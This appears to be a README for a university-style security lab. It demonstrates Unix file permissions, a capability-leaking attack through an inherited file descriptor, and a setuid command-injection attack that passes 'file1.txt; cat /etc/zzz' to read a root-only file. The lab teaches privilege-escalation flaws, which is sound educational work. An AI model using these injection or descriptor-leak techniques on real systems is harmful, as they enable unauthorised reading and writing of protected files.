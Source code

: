 Instructions
===

Demo multi-user permissions in bash
---

```
touch file_r.txt
sudo chown root file_r.txt 
sudo chmod 640 file_r.txt 
ls -ltr file_r.txt 
#-rw-r-----  1 root  staff  0 Feb  3 11:58 file_r.txt
echo "alice" >> file_r.txt 
#expected to fail
cat file_r.txt 
#expected to succeed 'cause the current user (tristartom) may be in the same group as root.
sudo su
#in the prompt
echo "bob" >> file_r.txt 
exit
# exit the prompt
cat file_r.txt 
```

Run capability-leaking attack
---

```
make clean
make attack-capability-leaking
#this will fail, which is expected.
./a.out
#fd is 3
#sh-3.2$ 
#in the above prompt, type the following:
echo yyy >&3
```

Toggle the protection on, in the setuid.c

Run seed-setuidlab-task8 attack （deprecated）
---

This attack doesn't work on latest Linux/MacOS which is protected.

```
make clean
make attack-seed-setuidlab-task8
touch file1.txt
echo xxx > file1.txt 
./a.out file1.txt 
touch /etc/zzz
sudo chmod 700 /etc/zzz
ls -ltr /etc/zzz
cat /etc/zzz
./a.out "file1.txt; cat /etc/zzz" 
```
